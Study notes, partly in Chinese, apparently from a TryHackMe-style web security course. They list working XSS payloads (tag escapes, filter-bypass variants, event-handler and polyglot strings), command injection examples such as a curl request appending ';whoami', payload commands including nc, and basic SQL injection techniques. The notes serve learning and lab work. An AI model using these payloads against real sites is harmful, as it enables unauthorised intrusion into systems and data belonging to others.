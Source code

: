 	--> 轉義輸入標籤 :
		--> end tab :  "><script>alert('THM');</script>
		--> end textarea tab : </textarea><script>alert('THM');</script>
		--> inclue img tab : ';alert('THM');//
			'指定名稱的字 | ;表示當前命令的結束 | //最後的 使後面的任何內容成為註釋而不是可執行代碼
		--> filter script : <sscriptcript>alert('THM');</sscriptcript>
		--> filter < > : using onload event  
			--> /images/cat.jpg" onload="alert('THM');
		--> mix : jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
		
## Command Injection == RCE  : 
	--> curl : test Command Injection
		--> curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
	--> PHP 、Python 和 NodeJS 
	--> find 輸入欄位中輸入的數據
	--> shell : ;,&和&&
	
	--> Blind command injection : 
		--> 沒有直接輸出的情況
		--> ping和sleep命令
		--> 重定向運算子（例如>)
		--> cat file 
	--> Verbose command injection : 
		--> 獲得直接回饋 --> whoami
	
	Payload : 
		--> Linux : whoami | ls | ping | sleep | nc
			--> 
		--> Windows : whoami | dir | ping | timout 
			--> “ & ”shell 運算子
		--> https://github.com/payloadbox/command-injection-payload-list
	Input sanitisation :
		--> filter_input ("numbe")
			--> 繞過過濾器 : 十六進制值 
				--> $payload = "\x2f\x00\x90\x90"

## SQL Injection: 
	--> Relationa : MySQL, Microsoft SQL Server, Access, PostgreSQL and SQLite
	--> SQL : 
		--> select * from users LIMIT 1;
		--> UNION :組合兩個或多個 SELECT 語句的結果
			--> SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;
		--> insert into users (username,password) values ('bob','password123');
		--> update users SET username='root',password='pass123' where username='admin';
		--> delete from users where username='martin';
	--> injection : 
		--> 註解 ;--
		--> In-Band SQL Injection
		--> Error-Based SQL Injection
		--> Union-Based SQL Injection
			--> 新增另一列 ,2,3,...
	--> 字元 : 單撇號 (') 或引號 (")
		--> 收到此錯誤訊息這一事實證實了SQL注入漏洞的存在
		